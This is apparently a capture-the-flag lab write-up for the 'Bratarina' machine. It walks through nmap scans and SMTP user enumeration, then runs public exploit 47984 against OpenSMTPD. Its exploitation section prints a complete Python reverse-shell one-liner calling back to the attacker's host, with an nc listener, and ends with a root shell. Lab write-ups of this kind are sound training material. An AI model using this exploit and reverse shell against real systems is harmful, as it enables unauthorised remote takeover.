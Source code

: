 <h2>Recon</h2>

<h3>PortScanning</h3>

>command: sudo nmap -A 192.168.82.71 -p- -T4 -v

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-01 16:13 WAT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 16:13
Completed NSE at 16:13, 0.00s elapsed
Initiating NSE at 16:13
Completed NSE at 16:13, 0.00s elapsed
Initiating NSE at 16:13
Completed NSE at 16:13, 0.00s elapsed
Initiating Ping Scan at 16:13
Scanning 192.168.82.71 [4 ports]
Completed Ping Scan at 16:13, 0.29s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:13
Completed Parallel DNS resolution of 1 host. at 16:13, 0.03s elapsed
Initiating SYN Stealth Scan at 16:13
Scanning 192.168.82.71 [65535 ports]
Discovered open port 445/tcp on 192.168.82.71
Discovered open port 25/tcp on 192.168.82.71
Discovered open port 80/tcp on 192.168.82.71
Discovered open port 22/tcp on 192.168.82.71
SYN Stealth Scan Timing: About 6.04% done; ETC: 16:22 (0:08:02 remaining)
SYN Stealth Scan Timing: About 19.79% done; ETC: 16:18 (0:04:07 remaining)
SYN Stealth Scan Timing: About 34.38% done; ETC: 16:17 (0:02:54 remaining)
SYN Stealth Scan Timing: About 46.32% done; ETC: 16:17 (0:02:20 remaining)
SYN Stealth Scan Timing: About 57.98% done; ETC: 16:17 (0:01:49 remaining)
SYN Stealth Scan Timing: About 71.94% done; ETC: 16:17 (0:01:11 remaining)
Completed SYN Stealth Scan at 16:17, 242.39s elapsed (65535 total ports)
Initiating Service scan at 16:17
Scanning 4 services on 192.168.82.71
Completed Service scan at 16:17, 6.56s elapsed (4 services on 1 host)
Initiating OS detection (try #1) against 192.168.82.71
Retrying OS detection (try #2) against 192.168.82.71
Initiating Traceroute at 16:17
Completed Traceroute at 16:17, 0.27s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 16:17
Completed Parallel DNS resolution of 2 hosts. at 16:17, 0.06s elapsed
NSE: Script scanning 192.168.82.71.
Initiating NSE at 16:17
Completed NSE at 16:18, 40.22s elapsed
Initiating NSE at 16:18
Completed NSE at 16:18, 1.68s elapsed
Initiating NSE at 16:18
Completed NSE at 16:18, 0.00s elapsed
Nmap scan report for 192.168.82.71
Host is up (0.22s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT    STATE  SERVICE     VERSION
22/tcp  open   ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbdd2cea2f85c589bcfce9a338f0d750 (RSA)
|   256 e3b765c2a78e4529bb62ec301aebed6d (ECDSA)
|_  256 d55b795bce48d85746db594fcd455def (ED25519)
25/tcp  open   smtp        OpenSMTPD
| smtp-commands: bratarina Hello nmap.scanme.org [192.168.49.82], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
53/tcp  closed domain
80/tcp  open   http        nginx 1.14.0 (Ubuntu)
|_http-title:         Page not found - FlaskBB        
|_http-server-header: nginx/1.14.0 (Ubuntu)
445/tcp open   netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)
Aggressive OS guesses: Linux 2.6.32 (88%), Linux 2.6.39 (88%), Linux 3.10 - 3.12 (88%), Linux 3.4 (88%), Linux 3.5 (88%), Linux 4.4 (88%), Synology DiskStation Manager 5.1 (88%), Linux 2.6.35 (87%), Linux 3.10 (87%), Linux 2.6.32 or 3.10 (87%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 26.225 days (since Fri Feb  3 10:53:46 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m01s, deviation: 2h53m14s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: bratarina
|   NetBIOS computer name: BRATARINA\x00
|   Domain name: \x00
|   FQDN: bratarina
|_  System time: 2023-03-01T10:17:45-05:00
| smb2-time: 
|   date: 2023-03-01T15:17:43
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   261.97 ms 192.168.49.1
2   262.34 ms 192.168.82.71

NSE: Script Post-scanning.
Initiating NSE at 16:18
Completed NSE at 16:18, 0.00s elapsed
Initiating NSE at 16:18
Completed NSE at 16:18, 0.00s elapsed
Initiating NSE at 16:18
Completed NSE at 16:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 297.78 seconds
           Raw packets sent: 131317 (5.782MB) | Rcvd: 206 (9.112KB)

```
From the above scan we have 3 ports opened, port 22 which runs ssh, port 25 which runs smtp, port 80 which runs http and port 445 which runs netbios-ssn. Our enumeration today will be focused more on port 25, port 80 and port 445.


<h2>Enumeration Port 25</h2>

Lets try to check if there is an exploit for this smtp version

>command:nmap -p 25 --script smtp-vuln*.nse 192.168.91.71

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Bratarina]
└─$ nmap -p 25 --script smtp-vuln*.nse 192.168.91.71                                                     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-01 17:02 WAT
Nmap scan report for 192.168.91.71
Host is up (0.21s latency).

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE

Nmap done: 1 IP address (1 host up) scanned in 1.38 seconds

```
Okay, it is not vulnerable to the available exploit hehe. Lets try to see if we can get usernames 

>command:smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 192.168.82.71 -p 25

```
──(bl4ck4non㉿bl4ck4non)-[~]
└─$ smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 192.168.82.71 -p 25
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/wordlists/metasploit/unix_users.txt
Target count ............. 1
Username count ........... 168
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Wed Mar  1 16:27:50 2023 #########
######## Scan completed at Wed Mar  1 16:28:16 2023 #########
0 results.

168 queries in 26 seconds (6.5 queries / sec)

```
oops, there's nothing hehe

Then I went back to my scan and found something

![image](https://user-images.githubusercontent.com/67879936/222197594-dfa51204-9db1-4d60-a103-121ee3786a6a.png)

Checking for the exploit of that version online, I found this

>link to exploit:https://www.exploit-db.com/exploits/47984



<h3>Exploitation Port 25</h3>

Download that exploit to your machine and lets try to run it
 
```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Bratarina]
└─$ python 47984.py                                                                              
Usage 47984.py <target ip> <target port> <command>
E.g. 47984.py 127.0.0.1 25 'touch /tmp/x'

```
Alright, so lets try to run it using the format we were given

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Bratarina]
└─$ python 47984.py 192.168.91.71 25 whoami              
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```
Alright, our payload got sent successfully hehe

Now, lets try to execute our reverse shell so we can get a shell back on our machine.

For this we'll be using 2 different terminals

>command terinal 1:python 47984.py 192.168.91.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.91\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'

>command terminal 2:rlwrap nc -lvnp 80

Ensure you change the $IP to your own IP address

![image](https://user-images.githubusercontent.com/67879936/222204177-72c4a2d7-483a-40a3-a460-e8ad1e3e40bb.png)

![image](https://user-images.githubusercontent.com/67879936/222204274-fe5792e8-ff93-440f-99ad-24d3d2c504c9.png)

Boom!!! We got a shell as root. This means we don't need to go through the stress of checking other ports xD

That will be all for today
<br> <br>
[Back To Home](../../index.md)





















